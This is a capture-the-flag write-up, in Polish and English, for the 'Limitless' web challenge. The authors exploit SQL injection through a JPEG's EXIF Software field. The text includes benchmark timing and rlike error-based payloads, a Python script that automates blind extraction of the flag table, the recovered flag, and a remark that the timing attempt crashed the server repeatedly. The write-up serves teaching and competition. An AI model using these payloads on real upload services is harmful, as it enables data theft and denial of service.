 ﻿## Limitless (web, 200p)

### PL

[ENG](#eng-version)

W zadaniu dostajemy link do webowego uploadera plików, oraz informacje, że mamy wyciągnąć jakieś informacje z tabeli `flag`.
Analiza uploadera oraz jego działania pozwala zauważyć, że uploader po załadowaniu pliku pobiera z niego dane `exif` a następnie na podstawie pola `exif.primary.Software` wyszukuje w bazie danych oraz wyświetla zdjęcia utworzone tym samym oprogramowaniem.

Zastosowaliśmy więc technikę `SQL Injection` poprzez pole exif, za pomocą skryptu:

```python
    img = pexif.JpegFile.fromFile("file.jpg")
    img.exif.primary.Software = '"&&' + sql + '#'
    img.writeFile('file.jpg')
```

Który dopisywał nasze zapytanie do pliku i przygotowywał je do wykonania. Zapytanie trafiało do klauzuli `where` zaraz za porównaniem ze stringiem. Niestety mieliśmy twarde ograniczenie wynoszące 50 znaków dla tego pola exif, co mocno ograniczało nasze możliwości.
Dodatkowo wykluczona była operacja union a tabela z której dokonywano selekcji miała 0 rekordów.

W związku z tym postanowiliśmy wykorzystać atak `remote timing` na bazę danych wraz z testowaniem pojedyńczych znaków jedynego elementu tabeli flags (gdzie spodziewaliśmy się flagi) - jeśli porównanie symbolu było niepoprawne wykonywaliśmy długo liczący się kod (sleep nie był dostępny). Z racji małej liczby znaków nie mogliśmy użyć funkcji `substring` ani `mid`, musieliśmy opierać się o przesuwające się okno ze znamym fragmentem flagi. Kod sql to:

```sql
benchmark(~-((select*from flag)like'%" + window + "%'),1)
```

Funkcja benchmark wykonuje podany kod tyle razy ile wynosi pierwszy argument. W naszym przypadku wartość boolean jest zamieniana na liczbę za pomocą unarnego minusa a następnie bity są negowane. Problem z tym rozwiązaniem polegał na tym, że taki benchmark wykonuje się bardzo (!) długo a w naszym kodzie uruchamiamy go dla każdego nie pasującego symbolu, więc dla każdego zgadywanego znaku pesymistycznie prawie 40 razy.

Skutek był taki, że położyliśmy serwer 5 razy uzyskując raptem 2/3 flagi a organizatorzy postanowili zablokować funkcję benchmark.

Nasze drugie podejście wykorzystało inny sposób - logowanie błędów mysql. Użyliśmy zapytania:

```sql
rlike(if(mid((select*from flag),"+CHARACTER_INDEX+",1)='"+CHARACTER+"','',1))
```

Dzięki czemu w zależności od spełnienia warunku skrypt wykonywał się poprawnie lub zgłaszał błąd składniowy.
Cały skrypt odzyskujący flagę:

```python
import pexif, subprocess

​def execute_sql(sql):
    img = pexif.JpegFile.fromFile("/var/www/html/img.jpg")
    img.exif.primary.Software = '"' + sql + '#'
    img.writeFile('/var/www/html/imgdest.jpg')
	return subprocess.check_output('curl -s -F submit=1 -F file=@/var/www/html/imgdest.jpg http://10.13.37.3', shell=True)

for i in range(1, 999):
    for c in (range(48, 58) + range(65, 91) + range(97, 126)):
        if 'expression' in execute_sql("rlike(if(mid((select*from flag),"+str(i)+",1)='"+chr(c)+"','',1))"):
            print chr(c),
            break
```

A jego wynik:

`DCTF{09D5D8300A7ADC45C5D434BB467F2A85}`

### ENG version

In the task we get a link to a web file upoloader and an information that we need to extract some data from `flag` table.
Analysis of the uploader and its behaviour reveals that the uploader, after loading the file, collected `exif` data and then based on `exif.primary.Software` finds and displays other pictures made with the same software.

We used `SQL Injection` via exif field using script:

```python
    img = pexif.JpegFile.fromFile("file.jpg")
    img.exif.primary.Software = '"&&' + sql + '#'
    img.writeFile('file.jpg')
```

This script was adding the query to the file and preparing it for execution. The query was then placed in `where` clause, right after the comparison with a string. Unfortunately we hade a hard limit of 50 characters for the query, which was a strong limiting factor. On top of that it was impossible to use `union` and the table on which the selection was executed had 0 rows.

Therefore we decided to use `remote timing attack` on the database with testing single character of the sole element of flags table (where we expected to find the flag) - if the condition was not matching we were executing a long running task (sleep was unavailable). Since the characters number limitation we could not use `substring` or `mid` functions and we had to relay on a moving window with known flag prefix/suffix. The SQL code was:

```sql
benchmark(~-((select*from flag)like'%" + window + "%'),1)
```

Benchmark function executes given code as many times as stated in the first argunent. In our case boolean is converted to int via unary minus and then bits are negated. The problem was that this benchmark executes really long (!) and in our code we we run it for every non matching symbol, so for any guessed character we might use almost 40 of those processes.

As a result we crashed the server 5 times and still got only 2/3 of the flag and organisers finally decided to block benchmark function.

Our second attempt was using a different approach - exploiting errors in mysql. We used:

```sql
rlike(if(mid((select*from flag),"+CHARACTER_INDEX+",1)='"+CHARACTER+"','',1))
```

And therefore the script would execute normally or crash with a syntax error, depending on the condition value.
Whole script for extracting the flag:

```python
import pexif, subprocess

​def execute_sql(sql):
    img = pexif.JpegFile.fromFile("/var/www/html/img.jpg")
    img.exif.primary.Software = '"' + sql + '#'
    img.writeFile('/var/www/html/imgdest.jpg')
	return subprocess.check_output('curl -s -F submit=1 -F file=@/var/www/html/imgdest.jpg http://10.13.37.3', shell=True)

for i in range(1, 999):
    for c in (range(48, 58) + range(65, 91) + range(97, 126)):
        if 'expression' in execute_sql("rlike(if(mid((select*from flag),"+str(i)+",1)='"+chr(c)+"','',1))"):
            print chr(c),
            break
```

And the result.

`DCTF{09D5D8300A7ADC45C5D434BB467F2A85}`
